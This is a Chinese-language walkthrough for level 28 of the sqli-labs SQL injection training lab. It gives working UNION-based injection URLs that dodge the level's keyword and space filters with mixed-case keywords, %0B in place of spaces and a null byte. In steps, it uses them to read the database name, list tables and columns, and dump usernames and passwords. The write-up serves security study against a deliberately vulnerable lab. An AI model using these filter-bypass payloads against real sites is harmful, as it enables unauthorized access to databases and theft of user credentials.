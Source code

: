 ```yaml
---
title: Less - 28
date: 2023-03-16T15:03:11Z
lastmod: 2023-03-16T15:17:46Z
---
```


# Less - 28

---

# 通关教程

---

## 1、判断闭合

---

查看源码，发现存在过滤

​![image](assets/image-20230316151011-7oijpka.png)​

这里发现基本与27关一样，依然采用大小写混合绕过

​![image](assets/image-20230316151103-a0imkh6.png)​

---

## 2、查看当前数据库

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,database();%00
```

​![image](assets/image-20230316151343-nb23zxf.png)​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,(select (group_concat(table_name)) from (information_schema.tables) where (table_schema='security'));%00
```

​![image](assets/image-20230316151426-jndu6uu.png)​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,(select (group_concat(column_name)) from (information_schema.columns) where (table_name='users'));%00
```

​![image](assets/image-20230316151649-x23o2gq.png)​

---

## 5、查看username,password字段的值

---

```http
http://192.168.225.132/sqli-labs/Less-28/?id=111')%0BUniON%0BsElect%0B1,2,(select (group_concat(username,password)) from (security.users));%00
```

​![image](assets/image-20230316151737-m53or1p.png)​

‍
